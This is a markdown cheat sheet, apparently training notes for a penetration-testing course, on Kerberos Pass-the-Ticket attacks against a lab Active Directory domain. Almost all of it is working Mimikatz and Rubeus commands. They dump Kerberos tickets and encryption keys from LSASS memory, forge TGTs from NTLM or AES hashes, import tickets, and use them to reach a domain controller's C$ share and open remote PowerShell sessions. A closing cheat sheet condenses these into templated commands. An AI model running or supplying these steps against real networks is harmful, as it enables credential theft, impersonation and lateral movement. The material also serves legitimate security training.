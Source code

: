# Pass-the-Ticket (PtT) – CTFS & CPTS

## 1. Extract Tickets

### With Mimikatz
```mimikatz
sekurlsa::tickets /export
```

### With Rubeus
```cmd
Rubeus.exe dump /nowrap
# Outputs tickets in BASE64
```

---

## 2. Extract Keys (for Forging TGTs)
Kerberos keys (AES/RC4) are encryption keys derived from a user’s password that let you forge valid Kerberos tickets without needing the plaintext password.
### With Mimikatz
```mimikatz
privilege::debug
sekurlsa::ekeys
```
extracts Kerberos encryption keys (NTLM/RC4, AES) for logged-in users directly from LSASS memory.

---

## 3. Forge TGT

### With Mimikatz (Admin required)
```mimikatz
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```
→ Spawns a new `cmd.exe` in target user’s context.

### With Rubeus (No Admin required)
```cmd
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2... /nowrap
```

Auto-import ticket:
```cmd
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f0... /ptt
```

---

## 4. Pass-the-Ticket (PtT)

### Import with Rubeus
```cmd
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

- **Using Base64 instead of file**:
```cmd
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/Vh
```

### Convert `.kirbi` → Base64
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

### With Mimikatz
```mimikatz
privilege::debug
kerberos::ptt "C:\Users\plaintext\Desktop\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

→ Ticket successfully imported, access shares:
```cmd
dir \\DC01.inlanefreight.htb\c$
```

---

## 5. Lateral Movement with PtT

### Mimikatz
```mimikatz
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```

### Rubeus (mimic runas /netonly)
```cmd
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```

Then:
```powershell
Enter-PSSession -ComputerName DC01
whoami
hostname
```

---

# Cheat Sheet

- **Dump tickets (Mimikatz):** `sekurlsa::tickets /export`  
- **Dump tickets (Rubeus):** `Rubeus.exe dump /nowrap`  
- **Dump keys:** `sekurlsa::ekeys`  
- **Forge TGT (Mimikatz):** `sekurlsa::pth /domain:<dom> /user:<u> /ntlm:<hash>`  
- **Forge TGT (Rubeus):** `Rubeus.exe asktgt /domain:<dom> /user:<u> /aes256:<key>`  
- **Import ticket (Mimikatz):** `kerberos::ptt <ticket.kirbi>`  
- **Import ticket (Rubeus):** `Rubeus.exe ptt /ticket:<kirbi>` or `/ticket:<b64>`  
- **Remote session:** `Enter-PSSession -ComputerName <host>`
